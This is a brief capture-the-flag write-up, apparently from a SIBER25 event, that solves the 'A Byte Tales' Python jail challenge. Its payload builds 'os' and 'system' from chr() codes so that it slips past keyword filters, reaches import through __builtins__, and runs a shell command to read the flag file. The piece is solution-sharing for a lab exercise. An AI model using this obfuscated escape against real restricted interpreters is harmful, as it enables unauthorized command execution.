

# Miscellaneous

## A Byte Tales

### Solution

<figure><figcaption></figcaption></figure>

It's a basic pyjail escape. Here's the payload

```python
__builtins__.__dict__['__IMPORT__'.lower()](''.join([chr(111), chr(115)])).__dict__[''.join([chr(115), chr(121), chr(115), chr(116), chr(101), chr(109)])]('cat flag.txt')
```

Flag: SIBER25{St1ck\_70\_7h3\_5toryl1n3!}
